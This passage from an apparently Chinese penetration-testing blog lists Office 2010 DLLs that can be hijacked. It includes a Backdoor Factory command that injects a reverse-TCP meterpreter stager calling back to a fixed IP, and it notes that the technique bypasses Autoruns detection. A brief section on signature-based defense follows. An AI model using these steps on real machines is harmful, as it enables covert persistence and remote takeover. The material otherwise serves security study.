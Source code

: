 针对Office 2010，分享几个自己找到的DLL劫持利用位置

### 1、劫持Word-审阅试图

LOCALSVC.DLL，位于`C:\Program Files\Common Files\microsoft shared\RRLoc14\`

对该dll添加payload

```
./backdoor.py -f LOCALSVC.DLL -H 192.168.81.192 -P 4444 -s reverse_tcp_stager_threaded
```


替换dll(需要管理员权限)，启动word.exe，切换至审阅视图，弹回meterpreter

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-24/1-2.gif)

### 2、劫持word-插入-图片

tiptsf.dll，位于`C:\Program Files\Common Files\microsoft shared\ink\`

需要`TrustedInstaller`权限才能替换

关于如何获得`TrustedInstaller`权限，可参考文章[《渗透技巧——Token窃取与利用》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Token%E7%AA%83%E5%8F%96%E4%B8%8E%E5%88%A9%E7%94%A8/)

### 3、劫持word-文件

也影响别的位置：

word -页面布局-主题-浏览主题

GrooveIntlResource.dll，位于`C:\Program Files\Microsoft Office\Office14\2052`

需要管理员权限

### 4、劫持Excel-插入-图片

MSPTLS.DLL，位于`C:\Program Files\Common Files\microsoft shared\OFFICE14\`

需要管理员权限

以上测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-24/1-3.gif)

**注:**

本节内容仅为了演示DLL劫持的一些利用方法，这些特殊的劫持位置只会在软件的特定功能打开时才会启动，所以能够绕过Autoruns的检测

## 0x05 防御
---

对于系统DLL，通过会带有微软签名，如果对DLL植入后门，签名会失效，这是一个老生常谈的问题

而对于第三方开发的软件，调用的第三方DLL不加签名，那么被利用的风险很大

## 0x06 小结
---

本文测试了使用The Backdoor Factory向DLL文件植入后门的方法，介绍修复BUG的思路，分享了一种DLL劫持的利用方法，仅供测试，通过总结该利用方法的特点，简要介绍了防御方面需要注意的问题


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)


